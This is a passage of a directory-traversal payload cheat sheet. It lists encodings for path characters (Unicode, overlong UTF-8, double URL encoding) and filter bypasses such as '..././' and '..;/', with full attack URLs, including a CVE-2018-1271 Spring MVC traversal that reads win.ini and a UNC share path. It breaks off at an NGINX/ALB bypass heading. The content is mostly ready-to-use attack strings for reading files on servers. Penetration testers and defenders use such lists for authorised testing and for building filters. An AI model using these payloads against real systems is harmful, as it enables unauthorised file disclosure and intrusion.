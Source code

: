 ```powershell
. = %u002e
/ = %u2215
\ = %u2216
```

### UTF-8 Unicode encoding

```powershell
. = %c0%2e, %e0%40%ae, %c0ae
/ = %c0%af, %e0%80%af, %c0%2f
\ = %c0%5c, %c0%80%5c
```

### Bypass "../" replaced by ""

Sometimes you encounter a WAF which remove the `../` characters from the strings, just duplicate them.

```powershell
..././
...\.\
```

### Bypass "../" with ";"

```powershell
..;/
http://domain.tld/page.jsp?include=..;/..;/sensitive.txt 
```


### Double URL encoding

```powershell
. = %252e
/ = %252f
\ = %255c
```

**e.g:** Spring MVC Directory Traversal Vulnerability (CVE-2018-1271) with `http://localhost:8080/spring-mvc-showcase/resources/%255c%255c..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/windows/win.ini`


### UNC Bypass

An attacker can inject a Windows UNC share ('\\UNC\share\name') into a software system to potentially redirect access to an unintended location or arbitrary file.

```powershell
\\localhost\c$\windows\win.ini
```


### NGINX/ALB Bypass
